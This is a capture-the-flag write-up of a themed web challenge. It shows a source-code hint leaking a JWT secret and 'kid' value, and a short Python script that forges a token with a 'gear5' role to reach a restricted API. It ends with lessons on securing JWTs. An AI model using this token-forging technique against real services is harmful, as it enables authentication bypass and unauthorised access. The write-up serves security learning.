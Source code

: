 # CTF Write-up: JWT Forgery and API Exploitation

## Challenge Summary
The challenge provided a hint in the `/cam-feed/` source code:
```javascript
// Who knew a Mushi could log credentials? Try jwt 'kid' = 'main'
// X-JOY-AUTH: NIKA-NIKA-NO-MI
```
Additionally, a Swagger endpoint was exposed:
```
https://ggggfajajs.onrender.com/swagger-joyboy
```
From this, various API endpoints were found, most of which were restricted. However, the following endpoint stood out:
```
https://ggggfajajs.onrender.com/api/system/telemetry
```
This endpoint returned an error message indicating that a JWT token was required.

## Exploitation Steps
### Step 1: Crafting the JWT Token
To access the telemetry API, a JWT token was needed. Based on the hint, we set the `kid` (Key ID) to `main` and initially tried signing it with a random secret key. However, this resulted in an error:
```
Signature verification failed
```
### Step 2: Using the Provided Secret Key
From the source code hint, we noticed `X-JOY-AUTH: NIKA-NIKA-NO-MI`. Using this as the signing key, we generated a new JWT token. However, upon using it, we received:
```
You are not ready for Gear 5.
```
### Step 3: Understanding "Gear 5"
A quick search on "Gear 5" led to the understanding that it refers to the 5th transformation of Luffy in *One Piece*. Based on this, we assumed the token payload needed a parameter related to "gear5".

### Step 4: Modifying the Payload
We modified the JWT payload by adding:
```json
{"role": "gear5"}
```
This time, the request was successfully accepted, and we received the flag!

## Tools Used
Python script for JWT forging:
```python
import jwt

# JWT Header
header = {
    "alg": "HS256",
    "typ": "JWT",
    "kid": "main"
}

# JWT Payload
payload = {"role": "gear5"}

# Secret Key
secret = "NIKA-NIKA-NO-MI"

# Generate JWT
token = jwt.encode(payload, secret, algorithm="HS256", headers=header)
print(token)
```

## Conclusion
This challenge demonstrated the importance of properly securing JWT authentication mechanisms. The ability to control the `kid` parameter allowed for bypassing authentication by forging a JWT token using a known secret. Always ensure:
- Secrets are not hardcoded in source code.
- JWT verification enforces strong signing keys.
- API endpoints are secured with proper authentication and authorization mechanisms.

Flag successfully captured!
